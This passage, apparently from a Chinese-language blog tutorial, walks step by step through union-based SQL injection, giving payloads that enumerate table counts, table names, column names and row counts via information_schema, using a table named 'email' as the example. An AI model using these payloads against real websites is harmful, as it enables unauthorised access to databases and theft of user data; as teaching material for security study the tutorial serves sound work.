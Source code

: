 ```
1 and 1=2 union select 1,count(table_name) from information_schema.tables where table_schema=database()
```

![](http://upload-images.jianshu.io/upload_images/118142-0f19703943b0d628.jpg)

这里我们使用`count`函数查询出了表的数量，一共七个。这里我们只查询当前数据库，如果要查询全部，可以把`where`子句给去掉。

### 查询表名

因为它只能显示一条记录，我们使用`limit`子句来定位显示哪一条。`limit`子句格式为`limit m,n`，其中`m`是从零开始的起始位置，`n`是记录数。我们构造：

```
1 and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit ?,1
```

我们需要把问号处换成 0 ~ 6，一个一个尝试，七个表名称就出来了。比如，我们获取第一个表的名称。

!()[http://upload-images.jianshu.io/upload_images/118142-a2baf5dcdbb4c43a.jpg]

它叫`email`，在真实场景下，这里面一般就是一部分用户信息了。如果第一个表示无关紧要的信息，可以继续寻找。

### 查询列数量

与表数量的查询类似，我们需要把所有`table`换成`column`。我们构造：

```
1 and 1=2 union select 1,count(column_name) from information_schema.columns where table_name='email'
```

![](http://upload-images.jianshu.io/upload_images/118142-9535183e8fbfc067.jpg)

一共有两个。

### 查询列名

我们把`count`去掉，加上`limit`，就出来了：

```
1 and 1=2 union select 1,column_name from information_schema.columns where table_name='email' limit ?,1
```

同样，我们需要把问号替换为 0 和 1；

!()[http://upload-images.jianshu.io/upload_images/118142-fc29392755f102e5.jpg]

我们这里查询结果为，第一列叫做`userid`，第二列叫做`email`。

### 查询行数量

```
1 and 1=2 union select 1, count(1) from email
```

!()[http://upload-images.jianshu.io/upload_images/118142-ad87dad537ba05d2.jpg]
